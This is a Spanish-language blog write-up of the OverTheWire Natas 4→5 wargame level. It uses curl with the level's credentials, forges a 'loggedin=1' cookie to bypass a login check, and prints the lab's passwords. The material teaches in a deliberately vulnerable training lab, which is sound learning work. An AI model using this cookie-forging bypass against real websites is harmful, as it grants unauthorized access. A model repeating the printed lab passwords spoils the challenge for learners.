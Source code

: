 ```yaml
---
title: OverTheWire - Natas 4 -> 5 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 4 -> 5 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas5
Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
URL:      http://natas5.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas4-5-1.png)

Nos indica que solo los usuarios que tengan sesión iniciada pueden ver la contraseña.

![](/images/images-otw-natas/natas4-5-2.png)

Si agregamos el parámetro `-v` a curl, podremos ver más información sobre las peticiones.

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Vemos que existe una cookie llamada **loggedin** y tiene de valor el número 0.

![](/images/images-otw-natas/natas4-5-3.png)

Para agregar una cookie con el comando curl usamos el parámetro `--cookie`. En este caso agregaremos `--cookie 'loggedin=1'`.

```bash
curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie 'loggedin=1'
```

![](/images/images-otw-natas/natas4-5-4.png)



# Contraseña
---

`aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

---

## [Anterior](/level-3-4)
## [Siguiente](/level-5-6)